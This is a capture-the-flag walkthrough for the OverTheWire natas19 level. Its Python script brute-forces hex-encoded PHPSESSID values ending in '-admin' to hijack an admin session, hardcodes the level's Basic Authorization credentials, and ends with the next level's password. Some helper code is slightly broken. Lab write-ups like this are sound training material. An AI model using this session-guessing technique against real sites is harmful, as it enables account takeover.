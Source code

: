 ```yaml
---
title: natas 19 walkthrough
description: over the wire natas 19
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-19 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 19 walkthrough
    order: 30
---
```

## Description
> Username: natas19
> 
> URL:      http://natas19.natas.labs.overthewire.org

---
## Progress
### Observation
Session ID are not sequential, but they seem similar.
### Analyze
Get 500 session IDs and analyze them.
It seems the session IDs always start with 3 and end with 2d226122. After strip those things. Session IDs can be divided into three parts: `[\d]`, `[3\d]`,`[3\d]`. Therefore, try them.
However, from the script, we cannot crack the session ID. After some tries, it seems that the session ID contains username in it, just right after the 2d22 part. `a` was encoded as `61`. `b` was encoded as `62`, and so on. It seems to be ascii in hex.
Therefore, we can guess there are three digits of number, and followed by `-<username>`.
### Script
```python
import requests
from bs4 import BeautifulSoup

def request_with_session_id(id :str):
    request_with_cookie({
        "PHPSESSID" : f"{id}",
    })

def request_with_cookie(cookies):
    header = {
        "Authorization" : "Basic bmF0YXMxOTo4TE1KRWhLRmJNS0lMMm14UUtqdjBhRURkazd6cFQwcw==",
    }
    url = "http://natas19.natas.labs.overthewire.org/index.php"
    response = requests.get(url, headers=header, cookies=cookies)
    soup = BeautifulSoup(response.text, 'html.parser')
    content = soup.select('#content')
    if response.status_code == 200:
        print(f"trying session id = {cookies["PHPSESSID"]}")
    if "You are an admin" in content.__str__():
        print(content)
        exit()
    elif "Please login with your admin account" in content.__str__():
        print(content)
        exit()
    else:
        pass

def add_characteristic(raw):
    return raw + "2d61646d696e"

def main():
    thirty = [str(i) for i in range(30, 40)]
    for part1 in thirty:
        request_with_session_id(add_characteristic(part1))
        for part2 in thirty:
            request_with_session_id(add_characteristic(part1+part2))
            for part3 in thirty:
                request_with_session_id(add_characteristic(part1+part2+part3))

def get_cookies():
    header = {
        "Authorization" : "Basic bmF0YXMxOTo4TE1KRWhLRmJNS0lMMm14UUtqdjBhRURkazd6cFQwcw==",
    }
    username = "admin"
    password = "AA"
    url = f"http://natas19.natas.labs.overthewire.org/index.php?username=\"{username}\"&password=\"{password}\""
    session_ids = []
    for i in range(300):
        response = requests.get(url, headers=header)
        session_ids.append(response.cookies.get("PHPSESSID"))
    print(session_ids)

def analyze_cookie():
    cookies = []
    for i in range(len(cookies)):
        if cookies[i][0] != "3":
            print(cookies[i])
            exit()
        elif cookies[i][-16:] != "2d61646d696e":
            print(cookies[i])
            exit()
        cookies[i] = cookies[i][1:-12]
    cookies.sort()
    print(cookies)

main()
```
guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH

---
## Hint

---
## Solving
### Category
- 
### Techniques
- 

### Tools
- 